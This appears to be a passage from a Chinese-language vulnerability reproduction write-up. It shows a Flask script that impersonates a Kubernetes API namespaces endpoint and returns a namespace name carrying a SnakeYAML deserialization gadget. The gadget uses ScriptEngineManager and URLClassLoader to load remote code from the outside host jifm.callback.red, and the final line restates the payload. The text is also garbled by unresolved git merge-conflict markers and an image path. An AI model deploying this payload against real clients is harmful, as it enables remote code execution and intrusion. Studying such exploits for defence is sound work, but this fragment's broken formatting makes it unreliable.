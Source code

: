 2、伪造 Server 端  
启动如下 Flask 脚本：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
from flask import Flask, jsonify

app = Flask(__name__)

@app.route('/api/v1/namespaces', methods=['GET'])
def get_namespaces():
    namespaces = {
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "selfLink": "/api/v1/namespaces",
    "resourceVersion": "123456"
  },
  "items": [
    {
      "metadata": {
        "name": "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://jifm.callback.red\"]]]]",
        "uid": "9c8b7a6f",
        "creationTimestamp": "2024-02-22T12:00:00Z"
      },
      "spec": {
        "finalizers": []
      },
      "status": {
        "phase": "Active"
      }
    }
  ]
}
    return jsonify(namespaces)

if __name__ == '__main__':
    app.run(debug=True)
```

<<<<<<< HEAD
设置 Namespace 为！！javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://jifm.callback.red"\]\]\]\] 即可](http://jifm.callback.red/)
